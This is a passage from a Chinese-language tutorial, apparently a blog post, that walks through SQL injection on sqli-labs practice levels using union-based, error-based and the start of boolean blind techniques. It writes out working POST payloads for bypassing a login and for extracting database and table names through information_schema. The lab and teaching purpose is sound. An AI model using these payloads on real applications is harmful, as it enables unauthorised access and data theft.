 ### 5.1 union注入

这里的环境使用level-11：

![image-20240507013805595](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240507013805595.png)

我这里通过抓包，可以知道当前的数据的传参是如下：

![image-20240507013937803](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240507013937803.png)

然后可以保证当前的uname的字段后面使用注入测试，并保证条件为真，也就是使用or。

```sql
uname=admin' union select 1,2 #&passwd=admin&submit=Submit
```

然后我这样就是登录成功的，后面的密码直接使用#号注释掉了。

![image-20240507014101914](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240507014101914.png)

然后可以使用如下注入查看当前的数据库表：

```sql
uname=' union select 1,(select database()) #&passwd=admin&submit=Submit
```



### 5.2 报错注入

这里使用level-13的靶场进行测试，当前是提交用户`admin'`看是否报错，如果有报错，查看报错显示的闭合符号，然后推断出来是否使用`')`。

这个联合查询的目的是将数据库中的表数量和当前数据库的名称（通过 `(select database())` 获取）连接起来，并通过 `concat_ws` 函数使用破折号连接。而 `floor(rand(0)*2)` 则是生成一个随机数，作为联合查询中的一个列，以确保语法的正确性。

```sql
passwd=admin&submit=Submit&uname=admin') union select count(*),concat_ws('-',(select database()),floor(rand(0)*2)) as a from information_schema.tables group by a#
```

然后再修改concat_ws函数的第二个值：

```sql
passwd=admin&submit=Submit&uname=admin') union select count(*),concat_ws('-',(select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2)) as a from information_schema.tables group by a#
```

这样就可以使用报错注入查看当前的字段信息：

![image-20240507151057005](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240507151057005.png?imageSlim)



### 5.3 盲注

> 第一种是布尔盲注

这里的盲注使用的是level-15的靶场环境，然后使用or的方式测试一下是否支持布尔盲注
